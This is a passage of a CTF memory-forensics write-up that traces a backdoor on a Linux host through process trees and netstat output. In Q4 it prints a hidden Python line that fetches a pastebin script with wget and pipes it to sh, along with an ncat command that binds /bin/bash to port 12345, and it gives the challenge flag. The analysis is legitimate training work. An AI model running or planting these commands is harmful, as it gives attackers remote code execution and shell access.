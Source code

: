 Exploring this PID on the `pstree`, proove that there is something suspicious, as `insmod` is used to insert modules into the kernel : 

```log
...
.gnome-terminal-     2535            1000
..gnome-pty-helpe    2621            1000
..bash               2622            1000
...sudo              3612
....insmod           3614
...
```

**Unfortunately, that's none of them.** Suspicious activity is not always malicious.

Exploring again the `pstree`, we can see something else suspicious :

```log
.ncat                2854
..bash               2876
...python            2886
....bash             2887
.....vim             3196
```

This one is more suspicious than the previous one because of the `ncat` (network process) launching some scripts.

## Q4. The attacker downloaded a backdoor to gain persistence. What is the hidden message in this backdoor?

I was unable to find this answer. I tried to list all the cached files using `linux_cached_file` to see if there is some suspicious one and dump it, but I found nothing. I tried to dump the suspicious process but without results too.

I also tried the github present in the bash history but I didn't see the hidden line pushed to the right : 

```python3
os.system('wget -O - https://pastebin.com/raw/nQwMKjtZ 2>/dev/null|sh')
```

A write-up gave me the flag because the links seems not valid anymore. This pastebin should contains a base64 strings which is the flag :

```bash
### Congratz : c2hrQ1RGe3RoNHRfdzRzXzRfZHVtYl9iNGNrZDAwcl84NjAzM2MxOWUzZjM5MzE1YzAwZGNhfQo=
nohup ncat -lvp 12345 -4 -e /bin/bash > /dev/null 2>/dev/null &
```

## Q5. What are the attacker's IP address and the local port on the targeted machine?

Using `linux_netstat` returns a lot of information but at the end of the output we could see theses lines : 

```log
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                  ncat/2854 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                  bash/2876 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                python/2886 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                  bash/2887 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                   vim/3196 
```
